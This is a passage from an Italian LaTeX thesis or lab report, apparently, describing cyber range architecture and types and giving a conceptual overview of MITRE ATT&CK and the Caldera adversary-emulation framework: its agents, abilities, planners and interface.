        
\includegraphics[width=0.85\linewidth, trim=2 0 2 0, clip]{images/RLMS.png}
        \caption{Diagramma di un RLMS}
    \end{figure}
    \begin{description}
        \item[Livello di orchestrazione $\rightarrow$] Alimentato dall'input proveniente dal RLMS, coordina i vari servizi all'interno del cyber range. Integra l'infrastruttura sottostante, la virtualizzazione e il target, supportando inoltre un'estensibilità dinamica del range attraverso la sua compatibilità con dei cloud privati o pubblici e con le infrastrutture cablate dedicate.
        \item[Infrastruttura sottostante $\rightarrow$] Include server, reti e storage, costituiti da un insieme di dispositivi fisici quali router o firewall, sebbene molti fornitori di ranges stiano migrando verso un'infrastruttura virtuale software-based.\\
        La scelta di quest'ultima impatta in modo cruciale sul realismo dell'esercitazione ed una considerazione importante ruota attorno al livello di supporto richiesto al fine di soddisfare le richieste del cliente.
        \item[Livello di virtualizzazione $\rightarrow$] Al fine di ridurre il numero di apparecchiature fisiche, molti adottano la virtualizzazione basata su due approcci comuni: hypervisor-based e infrastruttura definita su software. Il grado di disintermediazione tra l'infrastruttura sottostante e il target è fondamentale nella progettazione di un ambiente realistico e, grazie all'astrazione, è possibile creare una barriera tra queste due poiché possono contenere potenziali vettori di attacco.
        \item[Infrastruttura target $\rightarrow$] Si riferisce all'ambiente simulato vero e proprio in cui è possibile allenarsi; nei cyber range più avanzati, questi ambienti possono includere profili di server commerciali disponibili, endpoints, firewalls, ecc...\\
        Durante l'esercitazione, il RLMS genera scripts capaci di guidare il livello di orchestrazione ad organizzare il target; difatti, contengono dettagli quali range di indirizzi IP, server stacks e simili. 
    \end{description}
    \vspace{0.5em}
    {\bfseries\Large{Tipologie}}\\[1em]
    I cyber range si sono evoluti in distinte tipologie, in modo da soddisfare ogni singolo use case o necessità di miglioramento nel settore di ogni azienda cliente. È bene prendere atto delle principali differenze oltre alle diverse funzionalità rese disponibili da ogni categoria diversa di range. Di seguito, una classificazione con annessa descrizione:
    \begin{itemize}
        \item \textbf{Simulation ranges:} Implica la creazione di un ambiente di rete sintetico atto a replicare il comportamento dei componenti reali. La simulazione avviene all'interno di istanze virtuali per i vantaggi esplicitati precedentemente.
        \item \textbf{Overlay ranges:} Utilizzano direttamente la rete e i sistemi dell'enterprise; aumentandone il grado di realismo, ma, al contempo, anche il costo, il numero di componenti e il rischio di compromettere l'infrastruttura sottostante.
        \item \textbf{Emulation ranges:} Consiste nell'implementazione del range in una rete dedicata e mappata direttamente sull'infrastruttura fisica dell'azienda.
        \item \textbf{Hybrid ranges:} Formata da una combinazione dei ranges citati in precedenza, creando, quindi, un ambiente che soddisfa richieste specifiche.
    \end{itemize}
    
\chapter{MITRE Caldera}
MITRE nasce come organizzazione no-profit nel 1958, per offrire consulenza sull'ingegneria di sistema ad agenzie governative sia civili sia militari.\\
Negli anni, si è distinta tra le strutture aziendali grazie al suo impatto in aree quali ingegneria aerospaziale, cybersecurity ed intelligenza artificiale; sviluppando tools utili ed implementati da molte attuali agenzie. Uno tra questi è \textsc{MITRE ATT\&CK}.\\
Pubblicata per la prima volta nel 2013, è globalmente accessibile a tutti e rappresenta una linea guida sulle conoscenza base di tattiche, tecniche e procedure di avversari basati su osservazioni reali. In poche parole, funge da modello nello sviluppo di minacce e metodologie nel settore della cyber sicurezza.\\
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/MITRE_ATT&CK.png}
    \caption{Homepage di MITRE ATT\&CK}
\end{figure}\\
Il modello focalizza l'attenzione su come un attaccante interagisce con il sistema target durante un'operazione di breach, descrivendo i vari step partendo da un vettore di attacco e descrivendo i mezzi utilizzati.\\
Sulla base di questi concetti e descrizioni, è stato rilasciato nel 2017 uno strumento capace di emulare e, soprattutto, automatizzare il comportamento di un malintenzionato all'interno della rete, permettendo al team di difesa (Blue team) di concentrarsi su aspetti più specifici e nello stesso tempo facilità la progettazione della kill chain al team di attacco (Red Team): si tratta di Caldera\textsuperscript{TM} (Cyber Adversary Language and Decision Engine for Red Team Automation) ed è l'attore principale del progetto.
\newpage

\section{Componenti \& funzionalità\label{cald}}
    \begin{wrapfigure}{r}{0.2\textwidth}
        \vspace{-10pt}
        \centering
        
\includegraphics[width=0.2\textwidth]{images/Caldera_post_icon.png}
        \caption{Logo Caldera}
    \end{wrapfigure}
    Caldera nasce come web agent funzionante principalmente in Google Chrome; l'ultima versione rilasciata attualmente è la v5.3.0 e lo sviluppo continuo ha portato ad un'interfaccia molto user-friendly; sono state anche aggiunte diverse funzionalità in modo da rendere l'esperienza molto più interattiva e coinvolgente per gli utenti di Caldera.
    Il tool è costruito su due semplici componenti:
    \begin{itemize}
        \item \textbf{Core system:} Il codice sorgente del framework, include un server di Command-and-Control (C2) con una REST API ed un'interfaccia web in modo da avere pieno controllo dell'agente una volta inserito.
        \item \textbf{Plugins:} Repositories esterne, che dipendono dal core system, offrono funzionalità aggiuntive rispetto a quelle di default di Caldera.
    \end{itemize}
    Caldera sfrutta il framework ATT\&CK per identificare e riprodurre il comportamento di veri attaccanti registrati nel corso degli anni, costruendo un profilo che rispecchia in modo preciso una possibile minaccia reale ed attuale. È inclusa la possibilità di utilizzare il tool per delle diagnosi e delle ricerche dal lato Blue Team ma, non essendo lo scope di questo laboratorio, saranno esplorati solo le feature riguardanti l'automazione di ingaggi Red Team. L'architettura è centralizzata; è basata su un costrutto server-client in cui il secondo è rappresentato dall'agente installato all'interno dell'host da compromettere, mentre il server amministra le operazioni e rende disponibili all'utente tutte le informazioni ricavate dai vari agent. Fondamentalmente, dopo aver pianificato le azioni da seguire, il server attende la connessione da parte dei client e, successivamente, avvia le singole operazioni, anche attraverso host intermedi a seguito di movimenti laterali. Il linguaggio di programmazione principe del framework è Python.\\
    Di seguito, una lista dei concetti principali che si incrociano andando ad utilizzare il software di adversary emulation:
    \begin{itemize}
        \item \textbf{Agent \& groups:} Rappresentano programmi software, i quali si collegano a Caldera ad intervalli regolari in modo da ricevere istruzioni.\\
        Attualmente, sono già presenti un certo numero di agenti predefiniti che presentano diverse e singole funzionalità.
        \begin{enumerate}
            \item \textit{Sandcat:} Un agente implementato in Golang che permette di comunicare tramite canali C2 come HTTP, DNS tunneling o Github GIST.
            \item \textit{Manx:} Sempre implementato tramite Golang, ma comunica grazie a un contatto TCP e funziona come una reverse-shell.
            \item \textit{Ragdoll:} Costruito con Python, utilizza HTML per creare un contatto. 
        \end{enumerate}
        Un insieme di agenti può costituire un gruppo e sono spesso usati durante le operazioni di Red Team, perché determinano su che agenti eseguire le \textit{abilities} e, soprattutto, aggiungono del parallelismo nelle varie fasi. Tenendo conto della possibilità di avere degli agenti Blue Team, la presenza di gruppi divisi permette un'organizzazione più efficiente ed un'analisi approfondita su attacchi e difese automatizzati.
        \item \textbf{Abilities \& adversaries:} Quando parliamo di \textit{ability}, ci riferiamo a una specifica tattica o tecnica implementata in ATT\&CK che può essere eseguita da agenti in funzione. In particolare, sono inclusi: i comandi da eseguire, le piattaforme in cui eseguirlo (es. Windows Powershell), i payload da allegare ed un'impostazione per il formato dell'output da far arrivare al server.\\
        Un gruppo di \textit{abilities} costituiscono il profilo di un determinato avversario. Molti di essi sono già presenti nell'implementazione predefinita di Caldera e permettono di determinare che \textit{abilities} saranno eseguite in un'ipotetica operazione. Nonostante ciò, l'utente ha libera scelta sulla modifica del profilo avversario; è possibile addirittura crearne uno personalizzato con relative \textit{abilities} atomiche.
        \item \textbf{Operations:} Per avviare un'operazione, bisogna aver già installato un agent funzionante e selezionare il profilo della minaccia da eseguire. È possibile lanciare diverse operazioni in parallelo ed ogni agente può essere incluso in varie di queste.\\
        Durante i singoli piani di attacco, entrano in gioco dei moduli in grado di garantire il buon esito dell'operazione.
        \begin{enumerate}
            \item \textit{Planner:} Si occupa della configurazione delle modalità secondo cui vengono eseguite le \textit{abilities}. Sono disponibili di default diversi esempi di tipi di planner: atomic, esegue le singole \textit{abilities} in base al profilo dell'avversario; batch, esegue tutte le \textit{abilities} in una volta; infine, buckets, esegue le \textit{abilities} raggruppate in base alla tattica ATT\&CK.
            \item \textit{Facts:} Pezzi d'informazione riguardanti un dato sistema host e correlati con l'attributo \texttt{Command} nelle \textit{abilities}, tra i suoi elementi abbiamo la proprietà, il valore e lo score.\\
            Una volta inviata l'\textit{ability}, il server individua eventuali variabili e controlla quali di questi possono essere sostituiti con i facts a disposizione.
            \item \textit{Parser:} Utilizzato da Caldera per aggiungere ogni fact collezionato all'operazione. Si analizza l'output di un'\textit{ability} per estrarre potenziali info da utilizzare per i link futuri, tutto questo configurabile grazie a delle regole sui \textit{facts}.
            \item \textit{Link:} Generato per ogni agente durante l'esecuzione di un'ability. Se tutti i requisiti \textit{fact} sono soddisfatti, l'agente ha configurato e reso disponibile un esecutore possibile se non è ancora stato vittima della suddetta \textit{ability} (o configurata come ripetitiva). I vari link possono essere offuscati in base alle impostazioni di stealth configurate. I link generati andranno a costituire il ciclo di vita dell'operazione.
        \end{enumerate}
    \end{itemize}
    La configurazione del canale di comunicazione del server, oltre alle credenziali da inserire per il login, sono conservate all'interno di un file yaml nella directory \texttt{caldera/conf/}.

\section{Esempio uso di Caldera}
All'avvio del framework attraverso il terminale, all'utente si presenterà la schermata di login. A seconda del tipo di analisi che si intende effettuare, bisognerà inserire username e password scritti e modificabili all'interno del suddetto file. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{images/Caldera_login.jpeg}
    \caption{Pagina del login di Caldera}
\end{figure}
\noindent
La schermata seguente rappresenta l'homepage del server. Essa contiene un insieme di resoconti raffigurati mediante dei semplici grafi riguardo gli \textit{agents} inviati, le \textit{operations} create, il numero di \textit{abilities} ed \textit{adversaries} disponibili attualmente, che essi siano predefiniti o creati dall'utente, infine, l'indirizzo IP del server da inserire nella configurazione dell'agente che si vuole installare. Nella barra laterale sinistra sono presenti tutte le funzionalità disponibili durante l'uso del framework: sotto la voce \textit{"campaigns"} abbiamo gli strumenti per coordinare i test sugli hosts target; i \textit{"plugins"} rappresentano le feature aggiuntive, con cui l'utente può cimentarsi, in modo da rendere l'utilizzo più entusiasmante; infine, in \textit{"configuration"} sono presenti le attuali impostazioni avviate nel server.
\begin{figure}[H]
    \centering
